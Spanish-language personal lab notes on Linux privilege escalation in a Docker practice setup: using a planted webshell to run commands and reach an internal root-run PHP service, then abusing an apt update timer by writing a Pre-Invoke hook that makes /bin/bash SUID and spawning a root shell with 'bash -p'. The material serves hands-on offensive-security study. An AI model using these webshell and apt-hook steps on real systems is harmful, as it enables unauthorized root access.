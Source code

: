 
docker pull ubuntu latest
instalamos php y apache2

Supongamos que hemos vulnerado un servidor y logrado meter una webshell

crearemos el cmd.php

http://localhost/cmd.php?cmd=whoami
tenemos esta url
haremos ahora un netstat -nat
para ver los puertos internos abiertos
http://localhost/cmd.php?cmd=netstat nat

Nos copiamos el cmd.php a /tmp/
levantamos un servicio web con php -S 0.0.0.0:80 (esto hace que desde fuera se pueda detectar con nmap)

Para hacerlo privado lo que hacemos es cambiar el 0.0.0.0:80 a 127.0.0.1:80
tal que asi:

php -S 127.0.0.1:80

ahora hacemos un http://localhost/cmd.php?cmd=ps -faux

![[Pasted image 20250421232246.png]]

Aqui nos aparece el  servicio corriendo

sabiendo eso y que existe el recurso cmd porque lo  hemos ido listando lo que podemos hacer es meternos desde la url dentro de la maquina de la siguiente manera

 http://localhost/cmd.php?cmd=curl localhost:8000/cmd.php?cmd=id

Al estar el servicio corriendo de forma privilegiada lo podemos explotar y conectarnos como root


Caso 2:
Nos vamos a cd /etc/systemd/system

creaermos un servicio que cada cierto tiempo se ejecute un apt update

Creamos un archivo apt-update.service

con nvim creamos apt-update.timer
      │ File: apt-update.timer
───────┼─────────────────────────────────────────────────────────────────────────────────────
   1   │ [Unit]
   2   │ Description=Update package list every 30 seconds
   3   │ 
   4   │ [Timer]
   5   │ OnUnitActiveSec=30s
   6   │ Unit=apt-update.service
   7   │ 
   8   │ [Install]
   9   │ WantedBy=timers.target

y creamos un apt-update.service
─────────────────────────────────────────
   1   │ [Unit]
   2   │ Description=Update package list
   3   │ 
   4   │ [Service]
   5   │ Type=oneshot
   6   │ ExecStart=/usr/bin/apt update

Ejecutamos  los siguientes comandos:
root@parrot /etc/systemd/system $ systemctl daemon-reload         
root@parrot /etc/systemd/system $ systemctl enable apt-update.timer
Created symlink /etc/systemd/system/timers.target.wants/apt-update.timer → /etc/systemd/system/apt-update.timer.
root@parrot /etc/systemd/system $ systemctl start apt-update.timer 

------------
Para listar los servicios que se estahn corriendo podemos hacer un `systemctl list-timers

ahora hacemos systemctl start apt-update.service
Podemos jugar con pspy para detectarlo

find / -name apt-update.timer 2>/dev/null
Unaa vez encontrado el servicio podemos hacerle cat y ver en que consiste
en este caso hace un apt update


si tenemos capacidad de escritura en una ruta como etc/apt/apt.conf

podemos definir politicas para indicar que tareas o comandos queremos que se ejecuten previos a la acutalizacion del sistema


Dentro del directorio etc/apt/apt.conf
creamos un script llamado 01privesc

Buscamos en el navegador apt update Pre Invoke y Post Invoke

en el archivo creado "01privesc" pegamos lo siguiente
![[Pasted image 20250421235456.png]]
hacemos un watch -n 1 list-timers
y  en otra ventana watch -n 1 ls -l /bin/bash
 Como podemos apreciar en automatico se nos otorga privilegios de suid en la bash
 ![[Pasted image 20250421235745.png]]
Solo hacemos bash -p 